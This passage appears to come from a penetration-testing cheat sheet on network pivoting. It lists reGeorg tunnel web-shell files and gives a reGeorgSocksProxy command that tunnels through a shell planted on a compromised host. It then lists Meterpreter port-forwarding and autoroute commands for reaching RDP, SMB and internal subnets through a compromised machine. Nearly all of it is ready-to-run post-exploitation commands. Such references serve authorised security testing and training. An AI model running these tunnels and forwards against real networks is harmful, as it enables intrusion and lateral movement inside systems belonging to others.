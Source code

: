 - tunnel.ashx
- tunnel.aspx
- tunnel.js
- tunnel.jsp
- tunnel.nosocket.php
- tunnel.php
- tunnel.tomcat.5.jsp

    python reGeorgSocksProxy.py -p 8080 -u http://compromised.host/shell.jsp # the socks proxy will be on port 8080
    
    optional arguments:
      -h, --help           show this help message and exit
      -l , --listen-on     The default listening address
      -p , --listen-port   The default listening port
      -r , --read-buff     Local read buffer, max data to be sent per POST
      -u , --url           The url containing the tunnel script
      -v , --verbose       Verbose output[INFO|DEBUG]

## Metasploit

    # Meterpreter list active port forwards
    portfwd list 
    
    # Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell
    portfwd add –l 3389 –p 3389 –r target-host 
    portfwd add -l 88 -p 88 -r 127.0.0.1
    portfwd add -L 0.0.0.0 -l 445 -r 192.168.57.102 -p 445
    
    # Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell
    portfwd delete –l 3389 –p 3389 –r target-host 
    # Meterpreter delete all port forwards
    portfwd flush 
    
    or
    
    # Use Meterpreters autoroute script to add the route for specified subnet 192.168.15.0
    run autoroute -s 192.168.15.0/24 
    use auxiliary/server/socks4a
    
    # Meterpreter list all active routes
    run autoroute -p 
    